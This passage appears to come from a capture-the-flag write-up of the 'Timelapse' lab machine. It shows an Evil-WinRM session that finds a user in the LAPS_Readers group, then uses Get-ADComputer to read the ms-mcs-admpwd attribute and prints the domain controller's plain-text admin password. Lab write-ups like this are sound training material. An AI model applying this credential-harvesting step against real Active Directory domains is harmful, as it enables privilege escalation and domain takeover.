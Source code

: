 After listing the properties of **svc_deploy** user, i discover that he is a member of Global group **LAPS_reader**
### LAPS

**Windows Local Administrator Password Solution** (Windows LAPS) is a Windows feature that automatically manages and backs up the password of a **local administrator** account on your Microsoft Entra joined or Windows Server Active Directory-joined devices. You also can use Windows LAPS to automatically manage and back up the Directory Services Restore Mode (DSRM) account password on your Windows Server Active Directory domain controllers. An authorized administrator can retrieve the DSRM password and use it. Passwords are protected in transit from the client to the server using Kerberos v5 and AES. For more you can read [here](https://learn.microsoft.com/en-us/windows-server/identity/laps/laps-overview)

```powershell
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> net user svc_deploy
User name                    svc_deploy
Full Name                    svc_deploy
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/25/2021 11:12:37 AM
Password expires             Never
Password changeable          10/26/2021 11:12:37 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   10/25/2021 11:25:53 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers         *Domain Users
The command completed successfully.
```

When using LAPS, **2 new attributes** appear in the **computer** objects of the domain: `**ms-mcs-AdmPwd**` and `**ms-mcs-AdmPwdExpirationTime**`_._ These attributes contains the **plain-text admin password and the expiration time**. Then, in a domain environment, it could be interesting to check **which users can read** these attributes. In our case **svc_deploy** can read them. So we can use command `Get-ADComputer DC01 -property 'ms-mcs-admpwd'`

```powershell
*Evil-WinRM* PS Microsoft.PowerShell.Core\FileSystem::\\10.10.10.10\share> Get-ADComputer DC01 -property 'ms-mcs-admpwd'


DistinguishedName : CN=DC01,OU=Domain Controllers,DC=timelapse,DC=htb
DNSHostName       : dc01.timelapse.htb
Enabled           : True
ms-mcs-admpwd     : 3x5Ir9L7;Gd$6i62d,f3A+9w
Name              : DC01
ObjectClass       : computer
ObjectGUID        : 6e10b102-6936-41aa-bb98-bed624c9b98f
SamAccountName    : DC01$
SID               : S-1-5-21-671920749-559770252-3318990721-1000
UserPrincipalName :
```

